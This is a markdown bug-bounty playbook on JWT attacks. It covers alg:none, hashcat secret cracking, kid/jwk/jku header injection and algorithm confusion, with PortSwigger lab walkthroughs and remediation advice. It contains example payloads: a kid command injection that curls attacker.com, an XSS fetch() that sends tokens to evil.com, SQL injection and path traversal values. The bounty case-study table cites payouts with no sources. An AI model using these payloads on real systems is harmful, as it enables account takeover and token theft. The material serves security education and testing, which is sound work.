

*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [🔙 Back to Checklist](../../Element%20Testing%20Checklist.md) | [Next: OAuth & SAML](OAuth%20&%20SAML%20Vulnerabilities.md) >>*
---

# JWT & Auth Token Auditing : Master Playbook

> **Goal:** Bypassing authentication or escalating privileges by manipulating JSON Web Tokens (JWT) or their verification logic.
> **Triggers:** Applications using `Authorization: Bearer <JWT>` headers or session cookies containing base64-encoded strings with three sections separated by dots (`header.payload.signature`).
> **Context:** A JWT (JSON Web Token) is like a **Secret ID Badge**. 
> - **The Header** is the badge's plastic casing (how the badge was made).
> - **The Payload** is the photo and name on the badge (the data).
> - **The Signature** is the holographic seal. 
> Normally, if you change your name on the badge, the seal breaks. But in a vulnerable system, the bouncer (Server) either doesn't check the seal or uses a seal that you can easily Forge at home.
> **Hacker Mindset:** "I don't need to know the user's password if I can just forge a badge that says I'm the Admin."

---

## 0. Exploit Selection Search Tree
*Use this logical search tree to decide which JWT technique to prioritize:*



1.  **Can I delete the seal (signature) and still be accepted?**
    *   **Yes** → Use **[[#2.1 Algorithm None (The No Seal Attack)]]**.
2.  **Is the signing secret weak enough to guess?**
    *   **Yes** → Use **[[#2.2 Weak Secret Bruteforcing (Forging the Seal)]]**.
3.  **Can I trick the server into using its Public Key as a secret password?**
    *   **Yes** → Use **[[#4. Algorithm Confusion (RS256 vs HS256)]]**.
4.  **Is there a Key ID (`kid`) or URL (`jku`/`jwk`) in the header?**
    *   **Yes** → Use **[[#3. Header Injection Attacks (kid, jwk, jku)]]**.
5.  **Does the bouncer even look at the seal before letting me in?**
    *   **Yes** → Use **[[#2.3 Unverified Signature (Or Only if it exists)]]**.

---

## 1. Methodology & UX Impact Table

| Attack Vector | Beginner "Why" | Detection Indicator | Success Confirmation | Bounty Impact |
| :--- | :--- | :--- | :--- | :--- |
| **Alg: None** | VIP pass that doesn't need a stamp. | Server accepts `alg: none`. | Access via forged `none` token. | **High/Critical** |
| **Weak Secret**| Guessing a $2 sticker machine's model. | Hashcat cracks the secret. | Forged token with guessed secret. | **High/Critical** |
| **Alg Confusion**| Misusing the public key as a secret. | Server supports HS256 + RS256. | Forged token using Public Key. | **High/Critical** |
| **kid Traversal**| Pointing to an empty file (`/dev/null`). | Changing `kid` affects verification. | Token accepted with null-sign. | **Critical** |
| **jku Injection**| "Verify this at www.evil.com". | Server fetches key from your URL. | Server trusts your hosted key. | **High/Critical** |

---

## 2. Core Protocol Vulnerabilities

### 2.1 Algorithm None (The No Seal Attack)
The JWT standard technically allows for unsigned tokens. If a server is insecurely configured, it will accept tokens with the `alg` header set to `none`.

#### Execution:
1.  Decode the JWT.
2.  Change `"alg": "HS256"` (or RS256) to `"alg": "none"`. (Also try variations: `None`, `nONE`, `NONE`).
3.  Modify the payload (e.g., change `"sub": "wiener"` to `"sub": "administrator"`).
4.  Remove the signature but **KEEP the trailing dot**: `header.payload.`

> **Beginner Note**: Think of this as taking your ID badge out of the case, removing the hologram, and writing "Manager" over your name. If the server doesn't complain that the hologram is missing, you're in!

### 2.2 Weak Secret Bruteforcing (Forging the Seal)
Many developers use simple secrets like `123456`, `secret`, or the company name. If you can guess (brute-force) the secret, you can sign any token you want — effectively creating a perfect forgery of any user's badge.

> **Beginner Note**: Imagine the holographic seal on your badge is made with a $2 sticker machine. Anyone who knows the machine model can print their own seals. That's what a weak secret is — a cheap, guessable password protecting all tokens.

#### Tooling (Hashcat):
```bash
hashcat -a 0 -m 16500 <YOUR-JWT> jwt.secrets.list
```
*   `-a 0` means "dictionary attack" (try every word in a list).
*   `-m 16500` is the Hashcat mode specifically for JWT (HS256/HS384/HS512).
*   If cracked, take the secret and use the **JWT Editor** in Burp to sign your forged tokens.
*   **Note**: If you run hashcat more than once, add the `--show` flag to display previously cracked results.

### 2.3 Unverified Signature (Or Only if it exists)
The most basic flaw: the backend library is called to *decode* the token but not to *verify* it. 

> **Beginner Note**: This is literally the easiest JWT attack. You don't need to crack anything, generate any keys, or know any secrets. You just change what's in the payload and send it. If the server accepts it, nobody is checking the signature at all. It's like a bouncer who stamps every hand but never actually looks at the stamp when you come back in.

#### Execution:
1.  Change your username in the payload.
2.  Leave the signature as-is.
3.  If the server accepts the change, it is not verifying signatures at all.

#### The "Only if it exists" Bypass
Sometimes developers write code that verifies the signature *only* if the signature string isn't empty.
*   **Execution**: Modify the payload, delete the signature entirely, but leave the final dot: `header.payload.`
*   If accepted, the server saw no signature and "failed open," granting access.

### 2.4 Claim Tampering (Logic Flaws)
Even if the signature is perfectly verified, the application might blindly trust what's *inside* the payload. This is like a bouncer who checks the seal perfectly but never actually reads the name on the badge.

> **Beginner Note**: Think of it this way — the lock on the suitcase is perfect, but nobody checks what's actually *inside* the suitcase. You can put anything you want in the payload claims and the server just trusts it.

*   **Privilege Escalation**: Inject `"admin": true` or change `"role": "user"` to `"role": "admin"`.
*   **Account Takeover / IDOR**: Switch `"sub": "wiener"` or `"user_id": 123` to an administrative identifier.
*   **Expiration Bypasses**: Test if `"exp"` is properly validated. If it's missing or set 10 years in the future, the token never expires.
*   **Issuer (`iss`) Manipulation**: Some apps check the `iss` claim to determine which key to use — try changing it to see if validation breaks.

---

## 3. Header Injection Attacks (kid, jwk, jku)

> **Beginner Note**: The JWT header isn't just about the algorithm — it can contain *extra parameters* that tell the server *where* to find the key or *which* key to use. If the server blindly trusts these parameters without validation, we can redirect it to use OUR key instead of the real one. This is like putting a sticky note on your badge saying "verify this badge at www.evil.com" and the bouncer actually goes to that website.

### 3.1 `kid` (Key ID) Header Injection
The `kid` (Key ID) parameter is an optional hint in the JWT header that tells the server which key to use for verification. It's especially common when a server uses multiple keys. The vulnerability arises because the server might use this `kid` value directly in a file path lookup, database query, or even a shell command — without sanitizing it.

*   **Host Your Own Key**: Change the `kid` URL to an attacker-controlled URL so the application uses *your* key to verify the modified token.
    ```bash
    ssh-keygen -t rsa -b 4096 -m PEM -f jwtRS256.key
    openssl rsa -in jwtRS256.key -pubout -outform PEM -out jwtRS256.key.pub
     Change "kid":"http://localhost/key.pem" to "kid":"http://xyz.ngrok.io/jwtRS256.key"
    ```
*   **Path Traversal**: Point `kid` to `/dev/null` or a known public file (`../../public/main.css`).
    *   `"kid": "../../../../../../../dev/null"`
    *   **Action**: Sign the token with a null byte (`AA==` in base64).
*   **Command Injection**: If the `kid` is passed to a shell command.
    *   `"kid": "key.pem && curl http://attacker.com &"`
*   **SQL Injection**: If the `kid` is looked up in a database.
    *   `"kid": "key' UNION SELECT 'my-secret-key'--"`

### 3.2 `jwk` (JSON Web Key) Header Injection
The `jwk` parameter allows you to embed the verification key directly in the header.
*   **Vulnerability**: The server uses the key *you* provide in the header to verify the token you just sent it.
*   **Action**: Generate a new RSA key pair in Burp, embed the public key in the `jwk` header, and sign the token with your private key.

### 3.3 `jku` & `x5u` (JWK Set URL) Header Injection
Similar to `jwk`, but points to a URI containing the key set (JWK Set) or X.509 certificate.
*   **Vulnerability**: The server fetches the key from your URL, leading to SSRF or malicious key injection.
*   **Attack**: host a `jwks.json` file on your exploit server containing your public key. Point the `jku` or `x5u` header to it.

### 3.4 `x5c` (X.509 Certificate Chain) Header Injection
The `x5c` header parameter dictates the X.509 certificate chain used to verify the signature.
*   **Vulnerability**: The server naively trusts the certificate chain provided inside the token header itself without validating it against a trusted Root CA.
*   **Attack**: Generate a self-signed X.509 certificate, inject the base64-encoded string into the `x5c` parameter, and sign the token with your corresponding private key.

---

## 4. Algorithm Confusion (RS256 vs HS256)

This is the "King of JWT Attacks". It exploits servers that support multiple algorithms but don't strictly enforce which one to use.

> **Beginner Analogy: The "Two Types of Locks" Confusion**
> Imagine a building has two types of locks:
> - **Lock Type A (RS256 - Asymmetric)**: Requires a unique, secret master key to LOCK (sign), and a freely available public key to UNLOCK (verify). Everyone can verify, but only the building owner can lock.
> - **Lock Type B (HS256 - Symmetric)**: Uses the SAME key to both lock AND unlock.
> 
> The building owner uses Lock Type A. Their public key is hanging on the wall for everyone to see. Now, imagine you walk up to the bouncer and say "Hey, this door actually uses Lock Type B." The bouncer, without questioning it, grabs the only key he knows about (the public key on the wall) and tries to use it as a symmetric password. Since YOU also have that same public key (it's public!), you can forge a perfect lock.

**Step-by-Step:**

1.  **The Setup**: The server uses RS256 (Asymmetric - Private Key signs, Public Key verifies).
2.  **The Flaw**: The backend library uses a single generic `verify(token, key)` function. It doesn't enforce which algorithm the token *should* use — it reads the `alg` from the token's own header.
3.  **The Attack**: 
    1.  Change `alg` from `RS256` to `HS256` (Symmetric - same key for sign/verify).
    2.  Obtain the server's **Public Key** (often found at `/jwks.json`, `/.well-known/jwks.json`, or in JS source files).
    3.  Sign the forged token using the **Public Key** as the HS256 secret.
4.  **Why it works**: The server, seeing `HS256`, treats the key it has on file (its public key) as a symmetric secret string and uses it to verify your signature. Since the public key is... public, you already have it!

---

## 5. PortSwigger Lab Walkthroughs (Visualized)

> **Beginner Note**: These are step-by-step solutions to PortSwigger's JWT labs. Each lab teaches you ONE specific JWT attack. I recommend doing them in order — they build on each other. You'll need **Burp Suite** with the **JWT Editor** extension installed from the BApp Store.

### 5.1 Lab: JWT authentication bypass via unverified signature

**Lab Description**: This lab uses a JWT-based mechanism for handling sessions. Due to implementation flaws, the server doesn't verify the signature of any JWTs that it receives. Your goal is to access the admin panel at `/admin` and delete the user `carlos`. Login credentials: `wiener:peter`.

> **Beginner Walkthrough**: This is the simplest JWT attack. The server decodes the token to read the username but never actually checks if the signature is valid. So we can just change our username to `administrator` and the server will believe us.

**Written Steps:**
1.  Log in to your own account (`wiener:peter`).
2.  In Burp, go to **Proxy > HTTP history** and find the post-login `GET /my-account` request. Notice your session cookie is a JWT.
3.  Double-click the payload part of the token to view its decoded JSON in the **Inspector** panel. Notice the `sub` claim contains your username (`wiener`).
4.  Send this request to Burp Repeater. Change the path to `/admin`.
5.  In the Inspector panel, change the value of the `sub` claim from `wiener` to `administrator`, then click **Apply changes**.
6.  Send the request. You now have access to the admin panel!
7.  Find the URL for deleting `carlos` (`/admin/delete?username=carlos`). Send a request to this endpoint to solve the lab.

**Visual Proof:**


> **Step 1**: Here you can see the JWT token in the request. In Burp's Inspector panel on the right, the decoded payload is visible — notice the `sub` claim says `wiener`. This is where we'll change our identity.


> **Step 2**: We've changed the `sub` claim from `wiener` to `administrator` using the Burp Inspector. Notice we did NOT touch the signature at all — we're betting the server won't check it.


> **Step 3**: Success! The server accepted our modified token without verifying the signature. We now have access to the admin panel and can delete `carlos`.

### 5.2 Lab: JWT authentication bypass via flawed signature verification (none alg)

**Lab Description**: This lab uses a JWT-based mechanism for handling sessions. The server is insecurely configured to accept unsigned JWTs. Your goal is to access the admin panel at `/admin` and delete `carlos`. Login credentials: `wiener:peter`.

> **Beginner Walkthrough**: Unlike Lab 5.1 where the server ignores the signature entirely, this server DOES check the signature — but it also supports `alg: none`. When we set the algorithm to `none`, the server says "oh, this token doesn't need a signature" and skips verification. It's like telling the bouncer "I have a VIP pass that doesn't need a stamp" and the bouncer just lets you through.

**Written Steps:**
1.  Log in and find your JWT session cookie in Burp's HTTP history.
2.  Send a request to `/admin` in Repeater. Change the `sub` claim to `administrator`.
3.  Select the header of the JWT. In the Inspector, change the value of the `alg` parameter to `none`.
4.  In the message editor, remove the signature from the JWT (the text after the last dot), but **remember to leave the trailing dot** after the payload.
5.  Send the request — you should now have admin access.

**Visual Proof:**


> **Step 1**: In the JWT header (left side), you can see we've changed the `alg` field from its original value to `none`. This tells the server "this token uses no signing algorithm."


> **Step 2**: Here's the crucial part — we've removed the signature string at the end of the JWT but kept the dot separator. The token now looks like `eyJ...header.eyJ...payload.` (notice the trailing dot with nothing after it).


> **Step 3**: We've also changed the `sub` claim in the payload to `administrator`. Combined with `alg: none`, this gives us a forged admin token.


> **Step 4**: The server accepted our unsigned token. We now have full admin access. Lab solved!

### 5.3 Lab: JWT authentication bypass via weak signing key

**Lab Description**: This lab uses a JWT-based mechanism with an extremely weak secret key to both sign and verify tokens. Your goal is to brute-force the secret key, use it to sign a modified session token, and access the admin panel. Login: `wiener:peter`.

> **Beginner Walkthrough**: This lab is all about brute-forcing. The server uses a dictionary word as its JWT secret. We'll use Hashcat to try millions of passwords against the token until we find it. Once we have the secret, we can sign any token we want.

**Written Steps (Part 1 - Brute-force the secret key):**
1.  Load the **JWT Editor** extension from the BApp store.
2.  Log in and send the post-login `GET /my-account` request to Burp Repeater.
3.  Copy the JWT and brute-force the secret using: `hashcat -a 0 -m 16500 <YOUR-JWT> /path/to/jwt.secrets.list`
4.  If everything worked, this should reveal the weak secret is `secret1`.

> **Note**: If you run the command more than once, you need to include the `--show` flag to output the results to the console again.

**Written Steps (Part 2 - Generate a forged signing key):**
1.  Using Burp Decoder, Base64 encode the secret that you brute-forced (`secret1`).
2.  In Burp, go to the **JWT Editor Keys** tab and click **New Symmetric Key**. Click **Generate**.
3.  Replace the generated value for the `k` property with the Base64-encoded secret.
4.  Click **OK** to save the key.

**Written Steps (Part 3 - Modify and sign the JWT):**
1.  Go back to the `GET /admin` request in Repeater and switch to the **JSON Web Token** tab.
2.  Change the `sub` claim to `administrator`.
3.  Click **Sign**, select the key you generated, and make sure **Don't modify header** is selected.
4.  Send the request — you now have admin access!

**Visual Proof:**


> **Step 1**: Here we've captured the JWT token from a logged-in user session. This is the token we'll feed to Hashcat.


> **Step 2**: Hashcat has finished running against the `jwt.secrets.list` wordlist. Look at the output — it found the secret: `secret1`. This is the password the server uses to sign ALL its JWTs.


> **Step 3**: In Burp's "JWT Editor Keys" tab, we click **New Symmetric Key** and then **Generate**. This creates a blank key template.


> **Step 4**: We Base64 encode the cracked secret string (`secret1`) and prepare to paste it into the key template. Base64 encoding is required because that's how the `k` parameter stores data internally.


> **Step 5**: We paste the Base64-encoded secret into the `k` parameter field of our Symmetric Key. This tells Burp "use this password when signing tokens."


> **Step 6**: Back in Repeater, we change the `sub` claim to `administrator`, click "Sign" with our new key, and send the request. The server sees a perfectly signed token with a valid `administrator` identity — access granted!

### 5.4 Lab: JWT authentication bypass via jwk header injection

**Lab Description**: This lab supports the `jwk` parameter in the JWT header. This is sometimes used to embed the correct verification key directly in the token. However, it fails to check whether the provided key came from a trusted source. Your goal: admin access, delete `carlos`. Login: `wiener:peter`.

> **Beginner Walkthrough**: The `jwk` parameter lets you embed a key *inside* the token itself. Normally the server should ignore this and use its own key. But this server is lazy — it trusts whatever key you put in the header. So we generate our OWN key pair, embed the public part in the header, sign the token with our private key, and the server says "looks good to me!"

**Written Steps:**
1.  Load the **JWT Editor** extension. Log in and send the `GET /my-account` request to Repeater.
2.  Go to the **JWT Editor Keys** tab. Click **New RSA Key** > **Generate** > **OK**.
3.  Back in Repeater, switch to the **JSON Web Token** tab. Change `sub` to `administrator`.
4.  Click **Attack** > **Embedded JWK**. Select your newly generated RSA key and click **OK**.
5.  Observe in the header: a `jwk` parameter has been added containing your public key.
6.  Send the request — admin access granted!

> **Note**: Instead of using the built-in attack, you can manually add a `jwk` parameter to the header. In this case, you also need to update the `kid` header of the token to match the `kid` of the embedded key.

**Visual Proof:**


> **Step 1**: We navigate to the JWT Editor Keys tab and click "New RSA Key". After clicking Generate, Burp creates a fresh, random RSA key pair. This is OUR malicious key that we'll embed in the token.


> **Step 2**: In the Repeater tab, we switch to the JSON Web Token view. We can see the decoded header and payload. We change the `sub` claim from `wiener` to `administrator`.


> **Step 3**: At the bottom of the JWT tab, we open the "Attack" dropdown menu and select "Embedded JWK". This is Burp's built-in attack for this exact vulnerability.


> **Step 4**: A prompt appears asking which key to embed. We select the malicious RSA key we generated in Step 1. Burp will now inject the public part of this key directly into the JWT header.


> **Step 5**: Look at the header now! Burp has automatically added an entirely new `jwk` block containing our public key. The server will read this key and use it to verify our token — our token that WE signed with our matching private key.


> **Step 6**: We send the request and the server accepts it! It extracted our public key from the `jwk` header, used it to verify the signature, and it matched perfectly. We're now `administrator`.

### 5.5 Lab: JWT authentication bypass via jku header injection

**Lab Description**: This lab supports the `jku` parameter in the JWT header. However, it fails to check whether the provided URL belongs to a trusted domain before fetching the key. Your goal: forge a JWT to become admin and delete `carlos`. Login: `wiener:peter`.

> **Beginner Walkthrough**: Instead of embedding the key directly in the token (like `jwk`), `jku` tells the server "go fetch my key from this URL." We'll host our own public key on a malicious server and tell the victim server to fetch it from there. The server blindly goes to our URL, grabs our key, and uses it to verify our forged token. This is basically a combination of JWT forgery and SSRF!

**Written Steps (Part 1 - Upload a malicious JWK Set):**
1.  Generate a **New RSA Key** in the JWT Editor Keys tab.
2.  Right-click the key > **Copy Public Key as JWK**.
3.  Go to the exploit server. Paste the JWK into a JSON array:
    ```json
    { "keys": [ { "kty": "RSA", "e": "AQAB", "kid": "your-kid-here", "n": "your-n-value" } ] }
    ```
4.  Store the exploit.

**Written Steps (Part 2 - Modify and sign the JWT):**
1.  In Repeater, replace the `kid` in the JWT header with the `kid` from your uploaded JWK.
2.  Add a new `jku` parameter pointing to your exploit server URL.
3.  Change `sub` to `administrator`.
4.  Click **Sign** and select your RSA key. Make sure **Don't modify header** is selected.
5.  Send the request — the server fetches your key from the exploit server and validates your forged token!

**Visual Proof:**


> **Step 1**: We generate a new RSA Key in Burp's JWT Editor. Then we right-click it and select "Copy Public Key as JWK". This gives us the raw JSON representation of our public key.


> **Step 2**: The copied key is raw JSON. We need to format it into a proper JWK Set (a JSON object with a `keys` array). This is the standard format that servers expect when they fetch keys from a URL.


> **Step 3**: We go to our Exploit Server and paste the formatted JWK Set into the body. When we click "Store", this becomes publicly accessible at our exploit server's URL. Any server that visits this URL will see our malicious public key.


> **Step 4**: We note the URL of our Exploit Server. This is the URL we'll inject into the `jku` header parameter. When the victim server processes our token, it will make a request to this URL to fetch the verification key.


> **Step 5**: Back in Burp Repeater, we look at the JWT header. We can see the existing `kid` parameter. We need to replace this with the `kid` from our hosted JWK Set so they match.


> **Step 6**: We replace the `kid` value with the one from our malicious JWK Set. The `kid` must match between the JWT header and the hosted key — otherwise the server won't know which key to use.


> **Step 7**: This is the key injection — we add a brand new `jku` parameter to the header. Its value is the URL of our exploit server. This tells the server: "Don't use your local keys. Go fetch the verification key from this URL instead."


> **Step 8**: We change the `sub` claim to `administrator` in the payload. This is the identity we want to impersonate.


> **Step 9**: We click the "Sign" button and select our malicious RSA key pair. Burp signs the token with our private key.


> **Step 10**: We send the request. Here's what happens on the server: it reads the `jku` parameter, makes an HTTP request (SSRF) to our exploit server, downloads our public key, uses it to verify the signature — and it matches! The server now believes we're `administrator`. Lab solved!

### 5.6 Lab: JWT authentication bypass via kid header path traversal

**Lab Description**: This lab uses a JWT-based mechanism where the server uses the `kid` parameter in the JWT header to fetch the relevant key from its filesystem. Your goal: forge a JWT, become admin, delete `carlos`. Login: `wiener:peter`.

> **Beginner Walkthrough**: The `kid` parameter tells the server "use the key stored at this file path." We'll use a Path Traversal attack (`../../../dev/null`) to point it to an empty file. Since `/dev/null` is always empty, the "secret key" becomes an empty string. We sign our forged token with that same empty string, and it matches perfectly. It's like telling someone "the password is nothing" and they accept a blank password.

**Written Steps (Part 1 - Generate a suitable signing key):**
1.  Load the **JWT Editor** extension. Log in and send the `GET /my-account` request to Repeater.
2.  Go to **JWT Editor Keys** > **New Symmetric Key** > **Generate**.
3.  Replace the generated value for the `k` property with a Base64-encoded null byte (`AA==`). This is a workaround because the JWT Editor won't allow signing with an empty string.
4.  Click **OK** to save.

**Written Steps (Part 2 - Modify and sign the JWT):**
1.  Switch to the **JSON Web Token** tab in Repeater.
2.  Change the `kid` parameter in the header to: `../../../../../../../dev/null`
3.  Change `sub` to `administrator`.
4.  Click **Sign**, select the symmetric key with the null byte, and make sure **Don't modify header** is selected.
5.  Send the request — the server reads `/dev/null` (empty), uses empty as the key, and our null-byte signature matches!

**Visual Proof:**


> **Step 1**: In the JWT Editor Keys tab, we click "New Symmetric Key" and then "Generate". This creates a blank symmetric key template that we'll customize.


> **Step 2**: This is the clever part. We replace the `k` parameter value with `AA==`, which is the Base64 encoding of a single null byte. Since `/dev/null` is an empty file, the server will extract an empty/null key from it. Our signing key must match — hence the null byte. It's a workaround because the JWT Editor won't let you use a literally empty string.


> **Step 3**: We intercept a request in Repeater and switch to the JWT editor tab to view the decoded header and payload.


> **Step 4**: Now the Path Traversal attack — we replace the existing `kid` value with `../../../../../../../dev/null`. Each `../` goes up one directory. This payload traverses all the way to the filesystem root and then into `/dev/null`.


> **Step 5**: We change the `sub` claim from `wiener` to `administrator`. This is the identity we want to steal.


> **Step 6**: We click the "Sign" button at the bottom of the editor to re-sign the modified token.


> **Step 7**: We select the Symmetric key we created earlier — the one with the `AA==` null byte value. Make sure "Don't modify header" is checked so our `kid` traversal payload stays intact.


> **Step 8**: We click OK and Burp signs the token using the null byte as the HMAC secret.


> **Step 9**: We send the request and it works! The server: (1) read the `kid` parameter, (2) traversed to `/dev/null`, (3) read its contents (empty), (4) used that empty value as the HS256 secret key, (5) verified our signature against it — and it matched because we also signed with a null byte. Full admin access!

### 5.7 Lab: JWT authentication bypass via algorithm confusion

**Lab Description**: This lab uses a robust RSA key pair to sign and verify tokens. However, due to implementation flaws, this mechanism is vulnerable to algorithm confusion attacks. Your goal: obtain the server's public key (exposed via a standard endpoint), use it to sign a modified session token, become admin, and delete `carlos`. Login: `wiener:peter`.

> **Beginner Walkthrough**: This is the most complex JWT attack. Remember our "Two Types of Locks" analogy from Section 4? This lab puts it into practice. The server uses RS256 (asymmetric), but we're going to trick it into using HS256 (symmetric). The public key (which is freely available) becomes the "symmetric secret." Since we have it, we can forge any token.

**Written Steps (Part 1 - Obtain the server's public key):**
1.  Log in and send the `GET /my-account` request to Repeater.
2.  In the browser, go to the standard endpoint `/jwks.json` and observe the server exposes its public key.
3.  Copy the JWK object from inside the `keys` array (don't copy the surrounding array brackets).

**Written Steps (Part 2 - Generate a malicious signing key):**
1.  In the **JWT Editor Keys** tab, click **New RSA Key**.
2.  Make sure **JWK** is selected, then paste the server's public key JWK. Click **OK**.
3.  Right-click the entry > **Copy Public Key as PEM**.
4.  Use the **Decoder** tab to Base64 encode this PEM key. Copy the resulting string.
5.  Go back to **JWT Editor Keys**. Click **New Symmetric Key** > **Generate**.
6.  Replace the `k` property value with the Base64-encoded PEM you just created.
7.  Save the key. This symmetric key now contains the server's public RSA key masquerading as a password.

**Written Steps (Part 3 - Modify and sign the token):**
1.  In Repeater, switch to the **JSON Web Token** tab.
2.  Change the `alg` parameter in the header from `RS256` to `HS256`.
3.  Change `sub` to `administrator`.
4.  Click **Sign** and select the symmetric key containing the server's public PEM.
5.  Make sure **Don't modify header** is selected, then click **OK**.
6.  Send the request — the server uses its public key as an HS256 symmetric secret, which matches our signature. Admin access!

**Visual Proof:**


> **Step 1**: We navigate to `/jwks.json` on the target domain. This is a standard endpoint that exposes the server's public key in JWK (JSON Web Key) format. This key is public — anyone can access it. Normally that's fine, because it's only used for VERIFICATION. But we're about to abuse it.


> **Step 2**: We copy the raw JSON of the public key (the JWK object) from the `keys` array. We need just the key object, not the array wrapper.


> **Step 3**: In Burp's "JWT Editor Keys" tab, we click "New RSA Key", ensure "JWK" format is selected, and paste the server's public key. This imports the server's key into our Burp environment so we can manipulate it.


> **Step 4**: Right-click the imported RSA key and select "Copy Public Key as PEM". PEM is a different format for the same key — it's a Base64-encoded text block that starts with `-----BEGIN PUBLIC KEY-----`.


> **Step 5**: We go to the Decoder tab and Base64-encode the entire PEM text. This double-encoding is necessary because the symmetric key's `k` parameter expects Base64 input. So we're encoding the PEM (which is itself Base64) into yet another layer of Base64.


> **Step 6**: Back in "JWT Editor Keys", we click "New Symmetric Key" and "Generate" to create a blank symmetric key template.


> **Step 7**: We paste the double-Base64-encoded PEM into the `k` parameter. This is the magic trick — we're storing an asymmetric public RSA key inside a field that Burp thinks is a symmetric HMAC password. When we sign with this key, Burp will use the public key text as if it were a simple password.


> **Step 8**: Back in Repeater, we look at the JWT header. Currently the `alg` says `RS256` (asymmetric RSA). This is what we need to change.


> **Step 9**: The crucial step: we change `RS256` to `HS256`. This switches the algorithm from asymmetric (where private key signs, public key verifies) to symmetric (where the SAME key both signs AND verifies).


> **Step 10**: We modify the payload `sub` claim to `administrator` and click "Sign", selecting our malicious symmetric key.


> **Final Result**: We send the request. Here's the full chain of what happened:
> 1. The server reads `alg: HS256` from our token header.
> 2. It thinks: "I should use symmetric verification."
> 3. It grabs the only key it has on file — its RSA public key.
> 4. It treats that public key as a simple symmetric password string.
> 5. It verifies our HMAC signature against it.
> 6. Since WE also signed with that same public key string, the signatures match!
> Admin access granted. Algorithm confusion attack complete!

---

## 6. Advanced Token Attacks (Beyond the Labs)

### 6.1 Token Storage Attacks (Where Is the JWT Kept?)

Before you even look at the JWT's cryptography, check *where* it's stored. This determines which attacks are possible.

> **Beginner Note**: Think of it like this — even if your ID badge has the best hologram in the world, it doesn't matter if you leave it sitting on a park bench where anyone can pick it up and photocopy it.

| Storage Location | Risk | Attack |
| :--- | :--- | :--- |
| `localStorage` | 🔴 **High** — Accessible to any JavaScript on the page | Any XSS vulnerability = instant JWT theft. Attacker injects `<script>fetch('https://evil.com?token='+localStorage.getItem('token'))</script>` |
| `sessionStorage` | 🟠 **Medium** — Same as localStorage but cleared on tab close | Still vulnerable to XSS, but shorter window |
| `Cookie` (with `HttpOnly`) | 🟢 **Lower** — JavaScript cannot read it | Protected from XSS theft, but vulnerable to CSRF if `SameSite` isn't set |
| `Cookie` (without `HttpOnly`) | 🔴 **High** — JavaScript CAN read it | Same as localStorage. `document.cookie` exposes the JWT |

**What to test:**
1.  Open DevTools → Application → Storage. Check where the JWT lives.
2.  If it's in `localStorage` or a non-`HttpOnly` cookie, any XSS = full account takeover.
3.  Check if the `Set-Cookie` header includes `HttpOnly`, `Secure`, and `SameSite=Strict` flags.

### 6.2 Refresh Token Abuse (Persistent Access)

Many apps use two tokens: a short-lived **Access Token** (e.g., 15 minutes) and a long-lived **Refresh Token** (e.g., 30 days). The refresh token is used to silently get a new access token without re-logging in.

> **Beginner Note**: The Access Token is like a day pass to a theme park — it expires at midnight. The Refresh Token is like an annual membership card that automatically prints you a new day pass every morning. If an attacker steals the membership card, they have access *forever* (or until you cancel the membership).

**What to test:**
*   **Refresh Token Rotation**: After using a refresh token, does the server issue a NEW refresh token and invalidate the old one? If not, a stolen refresh token works forever.
*   **Revocation on Logout**: When the user clicks "Logout", is the refresh token actually invalidated server-side? Or can an attacker who captured it before logout still use it?
*   **Refresh Token in Response Body**: If the refresh token is returned in the JSON response body (not a `HttpOnly` cookie), it's vulnerable to XSS theft.
*   **No Rate Limiting**: Can you spam the refresh endpoint to generate hundreds of access tokens?

### 6.3 Real-World Bug Bounty Case Studies

| Program | Bug Type | Impact | Payout |
| :--- | :--- | :--- | :--- |
| **Auth0** | Algorithm Confusion (RS256→HS256) | Forge any user's token using the publicly available key | **$10,000+** |
| **Facebook** | Weak JWT Secret | Secret was brute-forced, allowing forged admin tokens on a staging API | **$6,000** |
| **Various HackerOne Programs** | `kid` Path Traversal to `/dev/null` | Full account takeover on APIs that stored keys on filesystem | **$2,000–$5,000** |
| **Shopify** | Unverified Signature | JWT payload was decoded but signature was never checked | **$3,000** |
| **Uber** | `jku` SSRF + JWT Forgery | Redirected key fetch URL to attacker-controlled server | **$7,500** |

> **Beginner Takeaway**: JWT bugs are extremely high-impact because they almost always lead to **Account Takeover** or **Privilege Escalation** — two of the most valuable vulnerability categories in bug bounty. A single JWT misconfiguration can affect every user on the platform.

---

## 7. Toolbox
*   **jwt_tool**: Automated triage of all known JWT vulnerabilities.
    ```bash
    git clone https://github.com/ticarpi/jwt_tool
    cd jwt_tool
    pip3 install -r requirements.txt
    python3 jwt_tool.py -M at -t "https://api.example.com/api/v1/profile" -rh "Authorization: Bearer <JWT Token>"
    ```
*   **JWT Editor (Burp Suite)**: Indispensable for manual key management and header injection attacks.
*   **jwtcat**: Fastest tool for cracking weak HS256 secrets.

---

## 8. Secure Remediation & Defense

### 8.1 Node.js (jsonwebtoken)
```javascript
// SECURE: Always specify the allowed algorithms
const decoded = jwt.verify(token, publicKey, { algorithms: ['RS256'] });
```

### 8.2 Verification Checklist
- [ ] Is the algorithm hardcoded on the backend?
- [ ] Are tokens revoked on logout?
- [ ] Is the secret/private key stored in environment variables (not code)?
- [ ] Is the `exp` claim enforced?
- [ ] Does the server reject tokens with `alg: none`?

---

## 9. Resources & Further Reading
*   [jwt.io — JWT Debugger & Decoder](https://jwt.io/) — Paste any JWT to decode it instantly and inspect header/payload/signature.
*   [PortSwigger Academy: JWT Vulnerabilities](https://portswigger.net/web-security/jwt) — The official labs used in Section 5.
*   [HackTricks: Hacking JWT](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens) — Comprehensive payload reference.
